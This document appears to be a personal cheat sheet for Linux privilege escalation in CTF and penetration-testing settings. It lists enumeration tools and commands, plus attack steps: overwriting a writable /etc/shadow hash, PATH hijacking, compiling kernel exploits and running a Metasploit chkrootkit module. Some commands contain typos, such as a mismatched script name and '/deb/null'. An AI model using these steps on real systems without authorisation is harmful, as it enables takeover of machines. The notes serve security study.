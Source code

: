 # Linux - Privilege Escalation

## Linux Local Enum Scripts

### LinPeass

Copy the script on the HTTP server directory.

```
cp /usr/share/peass/linpeas/linpeas.sh .
```

Transfer the script on target and run it.

### LinEnum.sh

{% embed url="https://github.com/rebootuser/LinEnum" %}

1. Copy bash script in a file (LinEnum.sh)
2. upload file to target machine /temp dir through meterpreter (upload LinuEnum.sh)
3. run this commands in linux target machine (chmod +x LinEnum.sh && ./LinEnum.sh)

### pspy

{% embed url="https://github.com/DominicBreuker/pspy" %}

**pspy** is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs.

```bash
# download on kali machine
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32

# trasfer with python on a target

# run on target
chmod +x pspy32 && pspy32
```





## Juicy Dir

Check this directory to find something juicy

```
/opt/
```





## Groups

Check the groups user and, if there is no standard one, google it to find some information and futher actions to do with it.&#x20;

```bash
id
```



## Sudo

```bash
sudo -l
```

## SUIDs

<pre class="language-bash"><code class="lang-bash"># Check application with permission
find / type f -perm -04000 -ls 2>/dev/null
<strong>find / -perm -u=s -type f 2>/dev/null
</strong></code></pre>

### GTFObins

{% embed url="https://gtfobins.github.io/" %}

## Capabilities

```bash
# check application with capabilities
getcap -r / 2>/dev/null

# If there are cap_setuid capabilities, use application for change user uid.
```

## Permitions Check

```bash
# check file with write permision open
find / -not -type l -perm -o+w

# /etc/shadow writable, change a root password with SHA-512 hash
openssl passwd -6 -salt xyz YOURPASS
# elevate your privs without sudo 
su -
```

## Cron Jobs

```bash
cat /etc/crontab

# create or mod script in crontab
```



## PATH Variable Manipulation

```bash
vim gre    # Check the $PATH
echo $PATH

# check writable folders
find / -writable 2>/deb/null

# add writable folder in PATH
export PATH=/[$WR_FOLDER]:$PATH

# Create command script in writable folder for privEsc
# Run Script
```



## **NFS (Network File Share)**

```bash
cat /etc/exports
# Check if there is no_root_squash in NFS conf
```



## Kernel Exploit

```bash
# Identify the Kernel version 
uname -a

# Search an exploit code for the kernel version with Linux Exploit Suggester
# download the script .sh
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# trasfer the script in the target
# run it
chmod +x lse.sh
./lse.sh

# READ EXPLOIT!!!
gcc explit.c -o exploit
```



## Metasploit PrivEsc

```bash
# view running program on target
ps aux
```

### CHKROOTKIT

```bash
service postgresql start && msfconsole

use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION N
set LHOST IP
exploit
```





